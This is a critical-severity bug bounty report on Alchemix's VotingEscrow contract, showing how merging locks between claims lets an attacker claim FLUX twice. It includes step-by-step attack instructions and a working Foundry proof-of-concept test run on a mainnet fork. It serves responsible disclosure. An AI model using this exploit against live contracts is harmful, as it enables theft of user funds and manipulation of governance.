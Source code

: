 
# Stealing FLUX by claiming, then merging positions and re-claiming.

Submitted on Mon May 06 2024 05:30:27 GMT-0400 (Atlantic Standard Time) by @infosec_us_team for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30800

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Protocol insolvency
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro

Attackers can claim more FLUX than accrued.

## Vulnerability Details

The attack vector is easy to understand.

**ATTACK VECTOR**

1- The attacker creates 2 (or more) locks in the *VotingEscrow*.
> For the sake of simplicity let's imagine he only created 2. We'll refer to the ids of the NFTs minted as `tokenId1` and `tokenId1`

2- Move forward in time to the next epoch.

3- The attacker calls `Voter.reset(tokenId1)` and accrues rewards for his token with id `tokenId1` based on the balance of BPT he deposited when minting the NFT.

4- The attacker claims the FLUX accrued by calling `flux.claimFlux(tokenId1, amount)`

5- The attacker merges the balance inside `tokenId1` with the balance inside `tokenId2` by calling `veALCX.merge(tokenId1, tokenId2);`

6- Now that his second NFT (`tokenId2`) has the double of BPT balance inside, he calls `Voter.reset(tokenId2)` and accrues rewards for his token with id `tokenId2`.

7- The attacker now claims the inflated FLUX accrued in `tokenId2` by calling `flux.claimFlux(tokenId2, inflated_amount)`

Here's a sequence diagram:
> After creating both locks the attacker must wait until the next epoch to proceed, we omitted the "wait" step in this diagram for simplicity.
```
 ┌────────┐                                      ┌──────┐┌─────┐┌────┐
 │Attacker│                                      │veALCX││Voter││FLUX│
 └───┬────┘                                      └──┬───┘└──┬──┘└─┬──┘
     │                                              │       │     │   
     │             createLock tokenId1              │       │     │   
     │─────────────────────────────────────────────>│       │     │   
     │                                              │       │     │   
     │             createLock tokenId2              │       │     │   
     │─────────────────────────────────────────────>│       │     │   
     │                                              │       │     │   
     │       reset tokenId1 + accrue tokenId1's FLUX│       │     │   
     │─────────────────────────────────────────────────────>│     │   
     │                                              │       │     │   
     │merge the BPT balance of tokenId1 and tokenId2│       │     │   
     │─────────────────────────────────────────────>│       │     │   
     │                                              │       │     │   
     │       reset tokenId2 + accrue tokenId2's FLUX│       │     │   
     │─────────────────────────────────────────────────────>│     │   
     │                                              │       │     │   
     │                       claim all FLUX         │       │     │   
     │───────────────────────────────────────────────────────────>│   
 ┌───┴────┐                                      ┌──┴───┐┌──┴──┐┌─┴──┐
 │Attacker│                                      │veALCX││Voter││FLUX│
 └────────┘                                      └──────┘└─────┘└────┘

```

If instead of doing it with 2 tokens, it is done with 3, after the last step the attacker can merge `tokenId2` with `tokenId3`, reset 3, and claim even more FLUX (a value relative to the full balance of `tokenId1` + the balance of `tokenId2` + the balance of `tokenId3`).

## Recommendation

When merging the balance of `tokenId1` into `tokenId2`, make sure to claim all `tokenId2`'s rewards if we are in a new epoch, before increasing the internal balance of `tokenId2`.

## Impact Details

FLUX can be used to boost the voting power of an NFT holder or as an ERC20 token that can be traded in the open market.

The consequences of gaming the system to claim more FLUX than accrued are:
- Protocol insolvency.
- Manipulation of governance voting.
- Direct theft of funds.
        
## Proof of concept
## Proof of Concept

Remember to run the code with the correct block number (the one used in your tests: 17133822)

We run the test executing:
```
forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/{API_KEY} --match-test testFluxAccrualAndMerge --fork-block-number 17133822 -vv
```
> Replace {API_KEY} with your API key.

To test how much FLUX the user should have accrued, add a comment to the "`veALCX.merge(tokenId1, tokenId2);`"

The code for the test:
```

    function testFluxAccrualAndMerge() public {

        address user = address(0x0123);

        uint256 tokenId1 = createVeAlcx(user, TOKEN_1, MAXTIME, true);
        uint256 tokenId2 = createVeAlcx(user, TOKEN_1, MAXTIME, true);

        hevm.startPrank(user);

        voter.reset(tokenId1);
        voter.reset(tokenId2);

        hevm.warp(newEpoch());
        voter.distribute();

        console2.log("balance of token1", veALCX.balanceOfTokenAt(tokenId1, block.timestamp));
        console2.log("balance of token2", veALCX.balanceOfTokenAt(tokenId2, block.timestamp));

        voter.reset(tokenId1);

        flux.claimFlux(tokenId1, flux.getUnclaimedFlux(tokenId1));

        veALCX.merge(tokenId1, tokenId2);

        voter.reset(tokenId2);

        flux.claimFlux(tokenId2, flux.getUnclaimedFlux(tokenId2));
        
        console2.log("balance of flux", flux.balanceOf(user));

        hevm.stopPrank();

    }

```